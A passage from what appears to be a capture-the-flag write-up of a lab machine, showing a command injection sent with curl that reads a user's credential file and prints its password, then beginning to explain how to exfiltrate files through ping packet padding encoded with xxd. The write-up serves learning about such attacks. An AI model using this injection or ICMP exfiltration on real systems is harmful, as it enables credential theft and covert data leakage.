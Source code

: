 ```
</body>
</html>
Command was executed successfully!

```

From there, the same command injection would apply:

```

root@kali# curl -s -6 -d "command=cat /home/loki/cred*;" -X POST 'http://[dead:beef::250:56ff:feb2:7cff]:80/' | tail -2 | head -1
pass: lokiisthebestnorsegod

```

### Exfil via ping

#### Background

Before I realized that I could just use a `;` to get output on the page, I was experimenting with getting information via `ping`. I have since heard that the author intended to have iptables blocking IPv6 traffic outbound, which means ICMP would have been the only way to get a shell as www-data, which would have been awesome.

I’ll show up through exfiling files here, though going to full shell shouldn’t be much more difficult.

#### Manually

I knew that I could ping myself using the command, as I had tested that earlier.

On the man page for `ping`, there’s this option:

> -p pattern
> ​ You may specify up to 16padbytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, -p ff will cause the sent packet to be filled with all ones.

So the option takes hex input. I can make that with `xxd`. If I use the `-p` flag in `xxd`, it just prints raw hex:

```

root@kali# echo test | xxd
00000000: 7465 7374 0a                             test.
root@kali# echo test | xxd -p
746573740a

```

In my first pass, I’ll also take advantage of a couple other flags:
- `-l 16` - only print the first 16 bytes
- `-s 0` - seek 0 (or 16, 32, etc) bytes before sending

There’s also one other bit - when I get to the end of the file, and there are less than 16 bytes left, the spacing in the ping gets off. So I’ll add “0xdf” characters to the end of the output so I can see it.
